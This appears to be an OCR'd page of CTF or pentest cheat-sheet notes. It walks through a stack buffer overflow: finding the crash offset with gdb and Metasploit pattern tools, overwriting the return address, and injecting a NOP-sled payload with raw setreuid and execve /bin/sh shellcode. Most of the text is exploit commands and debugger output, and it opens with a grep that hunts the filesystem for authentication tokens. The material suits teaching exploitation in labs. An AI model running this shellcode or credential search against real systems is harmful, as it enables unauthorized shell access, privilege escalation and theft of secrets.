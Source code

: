 ```bash
<ssh> $ grep -iR "authentication token" 2>/dev/null
```



### Buffer Overflow

If argv[1] is used, use `./<script> $(python -c "<command>")`

Else if get() or getline() is used, use `./<script> < <(python -c "<command>")` or `./<script> < out.txt`

```bash
gdb -q <file_path>
(gdb) r $(python -c "print('A' * 155)")

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```

You can assume offset is 152

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
```

```bash
(gdb) r 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A...'
(gdb) i r
...
rbp            0x6641396541386541	0x6641396541386541
...
```

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 6641396541386541
Exact match at offset 144
```

From above, you can see offset is 144, registry is 8, so you need 152 bytes to reach return address.

```bash
(gdb) r $(python -c "print('A' * 152 + 'BBBBBBBB')")
(gdb) x/xg $rsp
0x7fffffffe2c8: 0x4242424242424242
```

Successfully overwrote return address!

The script is owned by user with uid 1003, `pwn shellcraft -f d amd64.linux.setreuid 1003` and get shell `\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05`

Then, pick shell from [here](http://shell-storm.org/shellcode/)

```bash
(gdb) r $(python -c "print('\x90' * 86 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'A' * 36 + 'BBBBBBBB')")
(gdb) x/100x $rsp-160
0x7fffffffe228: 0x9090909090909090      0x9090909090909090
0x7fffffffe238: 0x9090909090909090      0x9090909090909090
0x7fffffffe248: 0x9090909090909090      0x9090909090909090
0x7fffffffe258: 0x9090909090909090      0x9090909090909090
0x7fffffffe268: 0x9090909090909090      0x9090909090909090
0x7fffffffe278: 0xebbf66ff31909090      0x0ffe894858716a03
0x7fffffffe288: 0x969dd1bb48c03105      0xdbf748ff978cd091
0x7fffffffe298: 0x5e545752995f5453      0x41414141050f3bb0
0x7fffffffe2a8: 0x4141414141414141      0x4141414141414141
0x7fffffffe2b8: 0x4141414141414141      0x4141414141414141
0x7fffffffe2c8: 0x4242424242424242      0x00007fffffffe300
0x7fffffffe2d8: 0x0000000200000000      0x00000000004005e0
```